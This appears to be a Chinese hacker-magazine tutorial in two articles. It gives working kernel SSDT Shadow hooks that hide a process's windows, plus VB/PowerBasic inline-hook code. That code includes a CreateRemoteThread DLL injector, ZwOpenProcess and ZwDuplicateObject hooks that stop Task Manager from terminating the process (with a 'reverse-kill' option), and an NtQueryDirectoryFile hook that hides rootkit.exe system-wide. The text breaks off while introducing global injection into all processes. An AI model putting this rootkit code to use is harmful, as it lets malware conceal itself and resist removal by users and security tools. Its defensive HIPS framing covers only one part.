    // 当前 SSDTSHADOW 函数指针需要的自己加
    NtUserQueryWindow     = (PVOID)GetSSDTCurAddr(NtUserQueryWindow_Index, TRUE);
    NtUserFindWindowEx    = (PVOID)GetSSDTCurAddr(NtUserFindWindowEx_Index, TRUE);
    NtUserBuildHwndList   = (PVOID)GetSSDTCurAddr(NtUserBuildHwndList_Index, TRUE);
    NtUserWindowFromPoint = (PVOID)GetSSDTCurAddr(NtUserWindowFromPoint_Index, TRUE);

    // 代理函数指针
    Old_NtUserQueryWindow   = ExAllocatePool(NonPagedPool, 20);
    Old_NtUserFindWindowEx  = ExAllocatePool(NonPagedPool, 20);
    Old_NtUserBuildHwndList = ExAllocatePool(NonPagedPool, 20);
}
```

```c
// 在自己处理的函数中过滤掉自己的信息
// 下面函数实现都很简单，较为依赖 NtUserQueryWindow 函数关联窗口构建接口
NTSTATUS fake_NtUserFindWindowEx(
    IN HWND hwndParent,
    IN HWND hwndChild,
    IN PUNICODE_STRING pstrClassName OPTIONAL,
    IN PUNICODE_STRING pstrWindowName OPTIONAL,
    IN DWORD dwType)
{
    ULONG hWnd;
    hWnd = Old_NtUserFindWindowEx(hwndParent, hwndChild, pstrClassName, pstrWindowName, dwType); // 执行原函数

    if (PsGetCurrentProcess() != ProtectedProcess)
    {
        // 操作进程不是自身则继续
        ULONG ProcessID = Old_NtUserQueryWindow(hWnd, 0); // 查询返回窗口的进程ID
        if (ProcessID == (ULONG)PsGetProcessId(ProtectedProcess)) // 是保护进程则返回
        {
            return FALSE;
        }
    }
    return hWnd;
}
```

```c
NTSTATUS fake_NtUserBuildHwndList(
    IN HDESK hdesk,
    IN HWND hwndNext,
    IN ULONG fEnumChildren,
    IN DWORD idThread,
    IN UINT cHwndMax,
    OUT HWND *phwndFirst,
    OUT ULONG *pcHwndNeeded)
{
    NTSTATUS ntStatus;
    ULONG j = 0, i = 0;

    if (PsGetCurrentProcess() != ProtectedProcess)
    {
        if (fEnumChildren == 1) // 是否是枚举子窗口
        {
            // 如果是枚举本程序子窗体，返回失败
            if (Old_NtUserQueryWindow((ULONG)hwndNext, 0) ==
                (ULONG)PsGetProcessId(ProtectedProcess))
            {
                return STATUS_UNSUCCESSFUL;
            }
        }

        // 枚举顶层窗口
        ntStatus = Old_NtUserBuildHwndList(hdesk, hwndNext, fEnumChildren,
                                           idThread, cHwndMax,
                                           phwndFirst, pcHwndNeeded);
        if (NT_SUCCESS(ntStatus))
        {
            while (i < *pcHwndNeeded) // 循环查询是否为本程序窗体，是则从数组中擦掉
            {
                if (Old_NtUserQueryWindow((ULONG)phwndFirst[i], 0) ==
                    (ULONG)PsGetProcessId(ProtectedProcess))
                {
                    for (j = i; j < (*pcHwndNeeded) - 1; j++)
                    {
                        phwndFirst[j] = phwndFirst[j + 1];
                    }
                    phwndFirst[*pcHwndNeeded - 1] = 0;
                    (*pcHwndNeeded)--;
                    continue;
                }
                i++;
            }
        }
        return ntStatus;
    }

    return Old_NtUserBuildHwndList(hdesk, hwndNext,
                                   fEnumChildren, idThread,
                                   cHwndMax, phwndFirst,
                                   pcHwndNeeded);
}
```

```c
UINT_PTR __stdcall fake_NtUserQueryWindow(
    IN ULONG WindowHandle,
    IN ULONG TypeInformation)
{
    if (PsGetCurrentProcess() != ProtectedProcess)
    {
        if (Old_NtUserQueryWindow(WindowHandle, TypeInformation) ==
            (ULONG)PsGetProcessId(ProtectedProcess))
        {
            // 试图关联保护的 PID，返回失败
            return FALSE;
        }
    }
    return Old_NtUserQueryWindow(WindowHandle, TypeInformation);
}

ULONG fake_NtUserWindowFromPoint(LONG x, LONG y)
{
    ULONG hWnd;
    hWnd = Old_NtUserWindowFromPoint(x, y);

    if (PsGetCurrentProcess() != ProtectedProcess)
    {
        if (Old_NtUserQueryWindow(hWnd, 0) ==
            (ULONG)PsGetProcessId(ProtectedProcess))
        {
            return FALSE; // 返回失败
        }
    }

    return hWnd;
}
```

把上述代码用 DDK2003 编译后会生成一个 SYS 文件，加载驱动后，可以从 ARK 中看到被我们 HOOK 的几个函数，如图 1 所示。


图1

函数的前 5 个字节被修改，跳转到了由我们处理的函数中。此时，常用的窗体攻击方法都失效了，无论是经典的 FindWindow+SendMessage 发送关闭消息，还是较新的 EnumWindows+SetParent 卸载进程窗体。而且，普通的窗体探测器也找不到窗体以及控件的句柄，如图 2 所示。

最后说明一下，本文附带的完整驱动工程里还有 Inline Hook ObOpenObjectByPointer 和 NtDuplicateObject 代码，因为和本文无关，所以实现的过程就不写了。驱动的开发环境是 VS2008+DDK2003，加载驱动的 DEMO 是用 VB6 编写的。后来我发现其他程序用 Win32 API“GetForegroundWindow”在被保护窗体获得焦点时，还是可以获得被保护窗体的句柄。经研究，发现这个 Win32 API 对应的 Native API 是 NtUserGetForegroundWindow。大家可以根据本文提供的模板再 Hook 一下这个函数，实现对 Ring3 的“窗体无缝保护”。



图 2

> （编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

- 前置知识：Basic
- 关键词：编程，Ring3，inline hook

### Ring3 下全局 Inline Hook 实现 HIPS 和 Rootkit 功能

文／图 广东工业大学 胡文亮（Hovi.Delphic）[HooS—SofT]

一直以来，Hook 貌似都是 VC 以及 Delphi 的专利，让不少仅仅懂得 VB 的读者望而却步。而且，Hook 和晦涩的汇编语言有着千丝万缕的联系。在《黑客防线》2009 年第 9 期的《打造自己的 Hook API 工具》一文中就是用 VC 写的，而且内嵌了汇编。不少所谓的“前辈”都对我说，BASIC 只能做界面，搞底层还是用 C 吧。作为“九零后非主流”的我偏偏不信，经过潜心研究，发现用 BASIC 语言一样可以实现 Ring3 全局 Inline Hook，而且效果和 VC 的一样好。

为了打破大家对“BASIC 不能搞底层”的错误认识，现在就把我的经验与大家共同分享。本文仅仅用到一点点的汇编，而且提供一个模型，使任何人 Hook 任何 API 都只要修改一点点代码就可以了（不需要修改汇编的代码）。而且，本文的通用 Hook 模块具有高度的兼容性，不仅支持最新的 Windows 7，甚至能兼容 Windows 9x。要使用本文的代码，必须安装 VB 6.0 和 PowerBasic 9.0。首先简单解释一下 Hook，Hook 就是执行函数前对参数或者执行函数后对结果进行过滤的操作，设置 Hook 的人想通过过滤达到自己的目的。比如 Hook ZwOpenProcess（执行函数前对参数进行过滤）阻止别的程序打开自己的进程，Hook ZwDuplicateObject（执行函数后对结果进行过滤）阻止别的程序复制自己的句柄。

要对一个函数进行挂钩，必须先了解这个函数，这里需要对函数进行反汇编。这个曾经是困扰我的一大难题，所幸的是已经有人把 LDasm 翻译成了 PB 的，于是这个难题就解决了。接下来直接研究如何挂钩 API 就行了。

先简述一下 Hook API 的流程：

- 加载将被 Hook 的 DLL  
- 获取函数地址  
- 修改内存属性页为可写  
- 申请内存空间  
- 读取 n 字节保存  
- 写入跳转（Jmp 后面跟着的地址，也就是被 Hook 的 API 函数地址）  
- 保存被 Hook API 函数的地址  
- 修改原函数跳转（Jmp 后面跟着的地址，也就是自己的函数地址）  
- 确保执行更改  
- 恢复原来的属性  

具体代码实现如下：

```vb
POKE DWORD, nextHook+pSize+5, FuncAddr
' 保存被 Hook API 函数的地址
' 下面是修改原函数跳转
POKE BYTE, FuncAddr, &HE9
' 汇编的 Jmp 就是机器码的 E9
POKE DWORD, FuncAddr+1, lpcallbackFunc-FuncAddr-5
' Jmp 后面跟着的地址，也就是自己的函数地址
FlushInstructionCache(GetCurrentProcess, BYVAL FuncAddr, pSize)
' 确保执行更改
VirtualProtect(BYVAL FuncAddr, pSize, tOldPoint, tOldPoint)
' 恢复原来的属性
FUNCTION = %TRUE
' 设置函数返回为真
END IF
END FUNCTION
```

恢复 API Hook 也很简单，流程简述如下：

- 判断函数是否被 Hook  
- 读取原 API 函数地址  
- 修改内存属性页为可写  
- 恢复被修改的跳转  
- 恢复原来的属性  
- 释放内存空间  
- 把自己的函数地址设为 NULL  

具体代码实现如下：

```vb
FUNCTION HookAPI(BYREF module AS ASCIIZ, BYREF api AS ASCIIZ, BYVAL lpcallbackFunc AS DWORD, BYREF nextHook AS DWORD, OPT BYVAL pSize AS DWORD) AS LONG
  LOCAL DLLModule AS DWORD, FuncAddr AS DWORD, tOldPoint AS DWORD

  DLLModule = LoadLibrary(module)
  ' 加载将被 Hook 的 DLL
  FuncAddr = GetProcAddress(DLLModule, api)
  ' 获取函数地址

  IF ISFALSE(pSize) THEN pSize = SizeOfHook(FuncAddr)
  ' 判断是否有 pSize 参数，否则自动获取

  IF ISTRUE(VirtualProtect(BYVAL FuncAddr, pSize, %PAGE_READWRITE, tOldPoint)) THEN
    ' 修改内存属性页为可写
    nextHook = VirtualAlloc(BYVAL %NULL, %PAGE_SIZE, %MEM_COMMIT, %PAGE_READWRITE)
    ' 申请内存空间
    CopyMemory(BYVAL nextHook, BYVAL FuncAddr, pSize)
    ' 读取 n 字节保存
    POKE BYTE, nextHook+pSize, &HE9
    POKE DWORD, nextHook+pSize+1, FuncAddr-nextHook-5
    ' Jmp 后面跟着的地址，也就是被 Hook 的 API 函数地址
```

```vb
FUNCTION UnHookAPI(BYREF nextHook AS DWORD, OPT BYVAL pSize AS DWORD) AS LONG
  LOCAL lOldAddrs AS DWORD, tOldPoint AS DWORD

  IF ISFALSE(pSize) THEN pSize = SizeOfHook(nextHook)
  ' 判断是否有 pSize 参数，否则自动获取
  IF nextHook THEN
    IF PEEK(BYTE, nextHook+pSize) = &HE9 THEN
      ' 判断函数是否被 Hook
      lOldAddrs = PEEK(DWORD, nextHook+pSize+5)
      ' 读取原 API 函数地址
      VirtualProtect(BYVAL lOldAddrs, pSize, %PAGE_READWRITE, tOldPoint)
      ' 修改内存属性页为可写
      CopyMemory(BYVAL lOldAddrs, BYVAL nextHook, pSize)
      ' 恢复被修改的跳转
      FlushInstructionCache(GetCurrentProcess, BYVAL lOldAddrs, pSize)
      ' 确保执行更改
      VirtualProtect(BYVAL lOldAddrs, pSize, tOldPoint, tOldPoint)
      ' 恢复原来的属性
      IF VirtualFree(BYVAL nextHook, %NULL, %MEM_RELEASE) THEN
        ' 释放内存空间
        nextHook = %NULL  ' 把自己函数地址设为 NULL
        FUNCTION = %TRUE  ' 设置函数返回为真
      END IF
    END IF
  END IF
END FUNCTION
```

接下来的工作就很简单了，比如要 Hook 某个 API，就可按照下面的格式编写：

```vb
CALL HookAPI("API所在模块", "API名", 自己的伪函数地址, 是否继续 Hook 下一次的函数调用)
```

但是，Ring3 下的 API Hook 仅仅是针对本进程，而不能对别的进程有效。于是，我采取了用 PB 制作 DLL、用 VB 制作 DLL 注入器的方案。VB 的 DLL 注入代码如下（集成了查找某个名字进程的代码）：

```vb
Public Sub Inject()
    ' 注入子程序
    Dim MySnapHandle As Long            ' 存放进程快照句柄
    Dim ProcessInfo As PROCESSENTRY32
    Dim MyRemoteProcessId As Long       ' 目标进程 pid

    Dim MyDllFileName As String         ' dll 文件路径
    Dim MyDllFileLength As Long         ' dll 文件名长度
    Dim MyDllFileBuffer As Long         ' 写入 dll 文件名的内存地址
    Dim MyAddr As Long                  ' 执行远程线程代码的起始地址（LoadLibraryA 地址）
    Dim MyReturn As Long

    MySnapHandle = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0)
    ProcessInfo.dwSize = Len(ProcessInfo)

    If Process32First(MySnapHandle, ProcessInfo) <> 0 Then
        Do
            If InStr(ProcessInfo.szExeFile, Text2.Text) > 0 Then
                MyDllFileName = Text1.Text
                MyDllFileLength = LenB(StrConv(MyDllFileName, vbFromUnicode)) + 1
                MyRemoteProcessId = OpenProcess(PROCESS_ALL_ACCESS, False, ProcessInfo.th32ProcessID)

                ' 得到进程的句柄
                If MyRemoteProcessId = 0 Then MsgBox "OpenProcess Error!": Exit Sub

                MyDllFileBuffer = VirtualAllocEx(MyRemoteProcessId, 0, MyDllFileLength, MEM_COMMIT, PAGE_READWRITE)
                ' 在目标进程中申请分配一块空白内存区域，地址保存在 MyDllFileBuffer

                If MyDllFileBuffer = 0 Then MsgBox "VirtualAllocEx Error!": Exit Sub

                MyReturn = WriteProcessMemory(MyRemoteProcessId, MyDllFileBuffer, ByVal (MyDllFileName), MyDllFileLength, 0)
                ' 向该内存区写入 dll 路径

                If MyReturn = 0 Then MsgBox "WriteProcessMemory Error!": Exit Sub

                MyAddr = GetProcAddress(GetModuleHandle("Kernel32"), "LoadLibraryA")
                If MyAddr = 0 Then MsgBox "GetProcAddress Error!": Exit Sub

                MyResult = CreateRemoteThread(MyRemoteProcessId, 0, 0, MyAddr, MyDllFileBuffer, 0, 0)
                If MyResult = 0 Then MsgBox "CreateRemoteThread error": Exit Sub

                CloseHandle MyResult
                CloseHandle MyRemoteProcessId
                MsgBox "OK"
            End If
        Loop While Process32Next(MySnapHandle, ProcessInfo) <> 0
    End If

    CloseHandle MySnapHandle
End Sub
```

在这里特别要注意进程名的大小写，这段代码对进程名的大小写敏感！如果任务管理器的进程名是 `TASKMGR.EXE`，而你输入的是 `taskmgr.exe` 就不行。有兴趣的读者可以继续完善本程序。

接下来要编写 PB 的 DLL。由于 DLL 被注入后会产生 DLL_PROCESS_ATTACH 消息，因此 Hook API 的代码应该写在此处。

```vb
FUNCTION LIBMAIN (BYVAL hInstance AS LONG, BYVAL fwdReason AS LONG, BYVAL lpvReserved AS LONG) AS LONG
    LOCAL WinHand AS LONG
    LOCAL WinPID AS DWORD
    SELECT CASE fwdReason
        CASE %DLL_PROCESS_ATTACH
            LOCAL MyHandle AS DWORD
            ghInstance = hInstance
            CALL HookAPI("ntdll.dll", "ZwOpenProcess", CODEPTR(MyOpenProcess), ZwOpenProcessNextHook)
            WinHand = FindWindow("ThunderRT6FormDC", "Hook_Protect")
            GetWindowThreadProcessId(WinHand, WinPID)
            ProtPID = WinPID
            FUNCTION = 1
        CASE %DLL_PROCESS_DETACH
            FUNCTION = 1
        CASE %DLL_THREAD_ATTACH
            FUNCTION = 1
        CASE %DLL_THREAD_DETACH
            FUNCTION = 1
    END SELECT
END FUNCTION
```

之后是过滤掉要保护的 PID，代码如下：

```vb
FUNCTION MyOpenProcess(BYREF ProcessHandle AS LONG, _
    BYVAL AccessMask AS LONG, _
    BYREF ObjectAttributes AS OBJECT_ATTRIBUTES, _
    BYREF ClientId AS CLIENT_ID) AS LONG

    LOCAL result AS LONG
    IF (ClientId.UniqueProcess = ProtPID) OR (ClientId.UniqueProcess = ProtPID+1) _
       OR (ClientId.UniqueProcess = ProtPID+2) OR (ClientId.UniqueProcess = ProtPID+3) THEN
        result = &HC0000022
    ELSE
        CALL DWORD ZwOpenProcessNextHook USING ZwOpenProcess(...) TO result
    END IF
    FUNCTION = result
END FUNCTION
```

把这个 DLL 编译并注入到任务管理器或者 Process Explorer 后，它们就无法结束注入程序的进程了，如图 1 所示。



图 1

如果把“result=&HC0000022”改成“result=-1”，就能实现反杀效果。也就是说，如果任务管理器或者 Process Explorer 试图结束注入程序的进程，而最终被结束的进程就是自己的进程。

但是，还有一种打开进程的方法，就是从 csrss.exe 中复制句柄。炉子的“VB 无驱杀冰刃”就是用了这种方法，其中的核心函数是 ZwDuplicateObject。现在，我们就 Hook 一下这个函数。

```vb
CALL HookAPI("ntdll.dll", "ZwDuplicateObject", CODEPTR(MyDuplicateObject), ZwDupObjNextHook)

FUNCTION MyDuplicateObject(BYVAL SourceProcessHandle AS LONG, BYVAL SourceHandle AS LONG, BYVAL TargetProcessHandle AS LONG, _
    BYREF TargetHandle AS LONG, BYVAL DesiredAccess AS LONG, BYVAL HandleAttributes AS LONG, BYVAL Options AS LONG) AS LONG

    LOCAL result AS LONG
    LOCAL myresult AS LONG
    LOCAL myhandle AS LONG

    CALL DWORD ZwDupObjNextHook USING ZwDuplicateObject(...)
    IF MyGetPID(myhandle) = ProtPID THEN
        CloseHandle myhandle
        result = &HC0000022
    ELSE
        ' 继续执行原始逻辑
    END IF
END FUNCTION
```

```basic
CALL DWORD ZwDupObjNextHook USING _
    ZwDuplicateObject(BYVAL SourceProcessHandle, BYVAL SourceHandle, BYVAL TargetProcessHandle, BYREF TargetHandle, BYVAL DesiredAccess, BYVAL HandleAttributes, BYVAL Options) TO result
END IF
FUNCTION = result
END FUNCTION
```

把DLL编译并注入后，会得到如图2所示的效果（但不影响结束别的进程，如冰刃、狙剑）。



图2

众所周知，IE的漏洞多得罄竹难书，如果我们上了被恶意挂马的网站，就很有可能会中招。但是无论如何，病毒木马都要运行起来才能发挥作用。接下来，我们Hook一下CreateProcessA和CreateProcessW，并注入IE实现监视进程启动的“主动防御”。

```basic
CALL HookAPI("kernel32.dll", "CreateProcessW", CODEPTR(MyCreateProcessW), CreateProcessWNextHook)
CALL HookAPI("kernel32.dll", "CreateProcessA", CODEPTR(MyCreateProcessA), CreateProcessANextHook)

FUNCTION MyCreateProcessW(lpApplicationName AS ASCIIZ, lpCommandLine AS ASCIIZ, lpProcessAttributes AS SECURITY_ATTRIBUTES, lpThreadAttributes AS SECURITY_ATTRIBUTES, _
    BYVAL bInheritHandles AS LONG, BYVAL dwCreationFlags AS DWORD, lpEnvironment AS LONG, lpCurrentDirectory AS ASCIIZ, lpStartupInfo AS STARTUPINFO, lpProcessInformation AS PROCESS_INFORMATION) AS LONG
```

```basic
DIM Result AS LONG
DIM TmpStr AS STRING, lng AS LONG
DIM showstr AS STRING, isW AS LONG

' 处理UNICODE字符串
lng = lstrlenW(lpCommandLine) * 2
TmpStr = SPACE$(lng)
MoveMemory BYVAL STRPTR(TmpStr), BYVAL VARPTR(lpCommandLine), lng
showstr = TRIM$(ACODE$(TmpStr))

IF MessageBox(0, "Process [PID=" & TRIM$(STR$(GetCurrentProcessID)) & "] want to create process : " & showstr & " , do you allow ?", "Warning", 4) = 6 THEN
    CALL DWORD CreateProcessWNextHook USING CreateProcessW(...) TO Result
ELSE
    Result = 0
END IF

FUNCTION = Result
END FUNCTION

FUNCTION MyCreateProcessA(lpApplicationName AS ASCIIZ, lpCommandLine AS ASCIIZ, ... ) AS LONG
DIM Result AS LONG
DIM TmpStr AS STRING, lng AS LONG
DIM showstr AS STRING, isW AS LONG

' 处理ANSI字符串
lng = lstrlen(lpCommandLine)
TmpStr = SPACE$(lng)
MoveMemory BYVAL STRPTR(TmpStr), BYVAL VARPTR(lpCommandLine), lng
showstr = TRIM$(TmpStr)

IF MessageBox(0, "Process [PID=" & TRIM$(STR$(GetCurrentProcessID)) & "] want to create process : " & showstr & " , do you allow ?", "Warning", 4) = 6 THEN
    CALL DWORD CreateProcessANextHook USING CreateProcessA(...) TO Result
ELSE
    Result = 0
END IF
END FUNCTION
```

注入IE后，当试图启动Excel时，会得到如图3所示的结果。



图3

接下来我们再实现一个有关Rootkit的应用：隐藏文件。主要原理是注入EXPLORER.EXE并HOOK NtQueryDirectoryFile，过滤掉自己要隐藏的文件，比如说ROOTKIT.EXE。主要的实现代码如下：

```basic
CALL HookAPI("ntdll.dll", "NtQueryDirectoryFile", CODEPTR(MyNtQueryDirectoryFile), NtQueryDirectoryFileNextHook)

FUNCTION MyNtQueryDirectoryFile LIB "NTDLL.DLL" ALIAS "NtQueryDirectoryFile" ( _
  BYVAL FileHandle AS LONG, _
  BYVAL hEvent AS LONG, _
  BYVAL ApcRoutine AS LONG, _
  BYVAL ApcContext AS LONG, _
  BYVAL IoStatusBlock AS LONG, _
  BYVAL FileInformation AS LONG, _
  BYVAL Length AS LONG, _
  BYVAL FileInformationClass AS LONG, _
  BYVAL ReturnSingleEntry AS LONG, _
  BYVAL FileName AS LONG, _
  BYVAL RestartScan AS LONG) AS LONG

LOCAL hResult AS LONG
LOCAL TmpName AS STRING
LOCAL TmpPath AS STRING
LOCAL Tem AS STRING
LOCAL FileInfo AS FILE_BOTH_DIRECTORY_INFORMATION PTR
LOCAL LastInfo AS FILE_BOTH_DIRECTORY_INFORMATION PTR
LOCAL Cdt AS COPYDATASTRUCT

CALL DWORD NtQueryDirectoryFileNextHook USING NtQueryDirectoryFile(FileHandle, hEvent, ApcRoutine, ApcContext, IoStatusBlock, FileInformation, Length, FileInformationClass, ReturnSingleEntry, FileName, RestartScan) TO hResult

IF NT_SUCCESS(hResult) AND FileInformation ...
```

```basic
THEN
  FileInfo = FileInformation
  TmpPath = GetPathByHandle(FileHandle)
  IF RIGHT$(TmpPath, 1) <> "\\" THEN TmpPath = TmpPath & "\\"

  DO WHILE (FileInfo)
    TmpName = LEFT$(ACODE$(@FileInfo.FileName), @FileInfo.FileNameLength / 2)
    IF LCASE$(TmpName) = "rootkit.exe" THEN
      ' 隐藏所有目录下的 rootkit.exe
      IF (LastInfo) THEN
        IF (@FileInfo.NextEntryOffset) THEN
          @LastInfo.NextEntryOffset = @LastInfo.NextEntryOffset + @FileInfo.NextEntryOffset
        ELSE
          @LastInfo.NextEntryOffset = 0
        END IF
      END IF

      IF (@FileInfo.NextEntryOffset) THEN
        FileInfo = FileInfo + @FileInfo.NextEntryOffset
        ITERATE DO
      ELSE
        FileInfo = %NULL
        EXIT DO
      END IF
    END IF

    LastInfo = FileInfo
    IF (@FileInfo.NextEntryOffset) THEN
      FileInfo = FileInfo + @FileInfo.NextEntryOffset
    ELSE
      FileInfo = %NULL
    END IF
  LOOP
END IF

FUNCTION = hResult
END FUNCTION
```

效果如图4所示，任何目录下名为rootkit.exe的文件都会被隐藏。

最后我们来谈谈如何实现Ring3全局Hook。首先，我们用ToolHelp32系列的函数枚举所有的进程，把自己的用于Hook的DLL注入到所有的进程中（暂不考虑有隐藏进程和取不到句柄的情况）。在我们编写的用于Hook的DLL中额外挂钩一个函数NtResumeThread，这个函数会在进程创建完毕正准备开始正式运行时用到。当用到这个函数时，就会转到我们处理的伪函数中。此时，就把我们编写的用于Hook的DLL注入这个新进程即可。做完这个动作后，再交还原函数处理。实现的代码如下：

```basic
